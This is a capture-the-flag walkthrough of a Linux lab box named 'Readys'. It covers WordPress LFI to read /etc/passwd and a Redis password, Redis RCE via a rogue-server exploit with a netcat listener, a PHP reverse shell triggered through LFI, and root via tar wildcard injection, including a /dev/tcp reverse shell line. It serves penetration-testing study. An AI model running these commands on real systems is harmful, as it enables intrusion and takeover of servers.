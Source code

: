 # 🧱 Readys (Linux)

## 🚪 Initial Foothold

- Target involved a WordPress instance vulnerable to **Local File Inclusion (LFI)**.
- Ran `wpscan` and discovered [LFI vulnerability 44340](https://www.exploit-db.com/exploits/44340).
- Used LFI to view:
  - `/etc/passwd`
  - `/etc/redis/redis.conf` — found Redis password using the `requirepass` directive.

### 🧨 Redis RCE Exploitation

- Downloaded payload:
  - [exp.so file](https://github.com/n0b0dyCN/redis-rogue-server/blob/master/exp.so)
  - [Redis RCE Exploit](https://github.com/Ridter/redis-rce?source=post_page-----88a3e0e21f62---------------------------------------)
- On attacker machine:
  ```bash
  sudo nc -nlvp 80
  ./redis-rce.py -r 192.168.234.166 -p 6379 -L 192.168.45.166 -P 80 -f redis-rogue-server/exp.so -a "Ready4Redis?"
  ```
  - Selected reverse shell option and caught a shell.

- Enumerated with:
  ```bash
  netstat -tulnp
  find / -type d -maxdepth 5 -writable 2>/dev/null
  ```
- Found MySQL credentials in `/var/www/html/wp-config.php`.

### 🐚 Alternative Shell Method

- Uploaded **Ivan's PHP reverse shell** to `/run/redis` and used LFI exploit again to trigger it:
  ```bash
  http://$IP/wp-content/plugins/vulnerable_plugin/lfi.php?file=../../../run/redis/shell.php
  ```

## 🔼 Privilege Escalation

- `linpeas.sh` found a **cron job running `tar`** on a folder inside `/var/www/html/`.
- Abused `tar` wildcard injection to escalate privileges:
  1. Created a reverse shell script:
     ```bash
     echo '#!/bin/bash' > shell.sh
     echo '/bin/bash -i >& /dev/tcp/192.168.45.166/80 0>&1' >> shell.sh
     chmod +x shell.sh
     ```
  2. Placed it inside `/var/www/html/` on target.
  3. Created malicious tar triggers:
     ```bash
     touch -- "--checkpoint=1"
     touch -- "--checkpoint-action=exec=bash shell.sh"
     ```

🔗 [Tar wildcard abuse reference](https://medium.com/@silver-garcia/how-to-abuse-tar-wildcards-for-privilege-escalation-tar-wildcard-injection-612a6eac0807)

---

## 🧾 Git Commands

```bash
# Move the file to the walkthroughs folder
mv ~/Downloads/Readys.md ~/Downloads/walkthroughs_project_template/linux/Readys.md

# Go to the project directory
cd ~/Downloads/walkthroughs_project_template

# Stage all changes
git add .

# Commit with a descriptive message
git commit -m "Added Readys (Linux) walkthrough"

# Push the commit to GitHub
git push
```